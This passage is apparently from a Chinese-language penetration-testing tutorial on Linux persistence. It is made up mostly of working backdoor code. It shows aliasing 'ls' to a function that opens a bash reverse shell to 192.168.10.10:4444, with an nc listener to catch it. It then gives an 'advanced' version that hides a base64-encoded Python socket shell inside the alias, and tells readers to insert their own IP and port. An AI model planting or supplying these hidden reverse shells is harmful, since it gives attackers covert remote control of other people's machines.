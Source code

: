 ```
#将ls设置为反弹shell
alias ls='alerts(){ ls $* --color=auto;bash -i >& /dev/tcp/192.168.10.10/4444 0>&1; };alerts'
```

![image-20230823135608618](assets/image-20230823135608618.png)

### 5.2.1. 查看效果

可以看到这里是成功反弹了。

```
nc -lvvp 4444
```

![image-20230823135626583](assets/image-20230823135626583.png)

### 5.2.2. 问题

这里执行ls后会成功执行命令，但是存在一个很大的问题就是ls命令会卡死，无法操作，只有攻击者将会话结束，才能够恢复。

## 5.3. 高级版反弹

这里其实就是调用python的模块来执行，利用socket反弹一个shell，同时这里是使用bash64进行加密了，届时修改的时候，可以将该密文中的IP地址及端口修改为自己的即可。

```
alias ls='alerts(){ ls $* --color=auto;python3 -c "import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'\''UTF-8'\'')}[sys.version_info[0]]('\''aW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzOwpyZXQgPSBvcy5mb3JrKCkKaWYgcmV0ID4gMDoKICAgIGV4aXQoKQplbHNlOgogICAgdHJ5OgogICAgICAgIHMgPSBzb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULCBzb2NrZXQuU09DS19TVFJFQU0pCiAgICAgICAgcy5jb25uZWN0KCgiMTkyLjE2OC4xMC4xMCIsIDQ0NDQpKQogICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSwgMCkKICAgICAgICBvcy5kdXAyKHMuZmlsZW5vKCksIDEpCiAgICAgICAgb3MuZHVwMihzLmZpbGVubygpLCAyKQogICAgICAgIHAgPSBzdWJwcm9jZXNzLmNhbGwoWyIvYmluL3NoIiwgIi1pIl0pCiAgICBleGNlcHQgRXhjZXB0aW9uIGFzIGU6CiAgICAgICAgZXhpdCgp=='\'')))";};alerts'
```

![image-20230823140242350](assets/image-20230823140242350.png)
